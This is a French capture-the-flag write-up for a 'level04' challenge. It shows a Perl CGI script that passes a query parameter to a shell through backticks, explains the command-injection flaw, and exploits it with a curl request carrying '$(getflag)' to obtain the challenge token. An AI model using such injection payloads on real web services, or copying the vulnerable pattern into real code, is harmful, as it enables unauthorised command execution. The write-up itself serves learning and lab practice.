 # level04

```bash
$ ls
level04.pl
$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Le script Perl présente une vulnérabilité classique appelée **injection de commande**. Cette vulnérabilité survient lorsque les entrées utilisateur sont directement passées à une commande du système sans validation ou échappement appropriés.

```bash
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";

sub x {
  $y = $_[0];           # $y prend la valeur du paramètre passé à la fonction x
  print `echo $y 2>&1`; # exécute la commande echo avec $y comme argument (La vulnérabilité se trouve ici)
}
x(param("x"));          # récupère le paramètre "x" de la requête HTTP

```

```bash
$ curl '192.168.179.131:4747/?x=getflag'
getflag # affiche getflag mais ne l'execute pas

$ curl '192.168.179.131:4747/?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

Création d’un sous Shell pour que `echo` affiche le résultat de la commande `getflag`
